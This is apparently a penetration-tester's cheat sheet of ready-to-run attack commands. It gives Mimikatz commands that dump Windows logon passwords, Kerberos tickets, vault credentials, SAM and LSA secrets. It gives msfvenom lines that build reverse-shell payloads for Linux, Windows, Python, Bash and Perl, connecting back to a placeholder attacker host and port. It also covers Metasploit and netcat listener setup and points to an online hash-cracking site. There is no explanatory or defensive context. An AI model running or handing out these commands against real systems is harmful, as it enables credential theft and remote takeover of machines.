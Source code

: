 # MIMIKATZ
> privilege::debug
> sekurlsa::logonpasswords
> sekurlsa::tickets /export

> kerberos::list /export

> vault::cred
> vault::list

> lsadump::sam
> lsadump::secrets
> lsadump::cache


# MSFVENOM PAYLOAD

**Linux**
>msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf

**Windows**
> msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe

**Python**
> msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py

**Bash**
> msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh

**Perl**
> msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl

# Listener

**Metasploit**
> use exploit/multi/handler
> set PAYLOAD <PAYLOAD>
> set LHOST <LHOST>
> set LPORT <LPORT>
> set ExitOnSession false
> exploit -j -z

**Netcat**
> nc -lvp <PORT>

# PASSWORD CRACKING

**Online**

> Decrypt MD5, SHA1, MySQL, NTLM, SHA256, SHA512 hashes

  - https://hashes.com/en/decrypt/hash
